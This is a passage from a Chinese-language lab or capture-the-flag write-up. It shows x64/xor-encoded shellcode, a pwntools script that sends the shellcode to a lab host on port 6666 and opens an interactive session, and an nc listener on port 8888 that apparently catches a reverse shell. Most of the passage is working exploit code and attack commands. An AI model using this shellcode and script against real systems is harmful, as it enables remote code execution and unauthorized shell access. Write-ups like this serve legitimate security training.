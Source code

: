 ```bash
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xba\x33\x2b\x2a\x85"
buf += b"\x94\xad\xef\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\xf2\x8b\x04\x48\xec\xfa\x82\x9c\xd2"
buf += b"\x33\xb2\x7a\xd1\xcb\xff\x89\xd2\x1e\x48\x7e\xdb"
buf += b"\xc6\x45\xc2\xba\x33\x2b\x48\xf0\xe7\xd4\x8d\xd5"
buf += b"\x4b\x0b\x44\xe6\xb4\x9c\xd6\x88\x1d\x1a\x1c\xbd"
buf += b"\xba\x9f\xdf\x8f\x1d\x1a\x18\xbd\xb4\x95\xd7\x82"
buf += b"\x0b\x0b\x07\xe0\xb4\x82\x8d\xd3\x5d\x04\x48\xe4"
buf += b"\xe7\xc5\xef\xec\x64\x7f\x74\xef\xaf\xf5\xe0\xbf"
buf += b"\x33\x2b\x2a\x85\x94\xad\xef"
```

**编码器说明**：使用 `x64/xor` 编码器绕过字符过滤，成功生成 127 字节的 payload。

## 4.2 编写利用脚本

创建 Python 脚本发送 shellcode：

```python
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat a.py 
#!/usr/bin/env python3
from pwn import *

io = remote('192.168.205.239', 6666)

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf5\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xba\x33\x2b\x2a\x85"
buf += b"\x94\xad\xef\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\xf2\x8b\x04\x48\xec\xfa\x82\x9c\xd2"
buf += b"\x33\xb2\x7a\xd1\xcb\xff\x89\xd2\x1e\x48\x7e\xdb"
buf += b"\xc6\x45\xc2\xba\x33\x2b\x48\xf0\xe7\xd4\x8d\xd5"
buf += b"\x4b\x0b\x44\xe6\xb4\x9c\xd6\x88\x1d\x1a\x1c\xbd"
buf += b"\xba\x9f\xdf\x8f\x1d\x1a\x18\xbd\xb4\x95\xd7\x82"
buf += b"\x0b\x0b\x07\xe0\xb4\x82\x8d\xd3\x5d\x04\x48\xe4"
buf += b"\xe7\xc5\xef\xec\x64\x7f\x74\xef\xaf\xf5\xe0\xbf"
buf += b"\x33\x2b\x2a\x85\x94\xad\xef"

io.send(buf)
io.interactive()
```

## 4.3 获取初始 Shell

在 Kali 上开启监听：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```
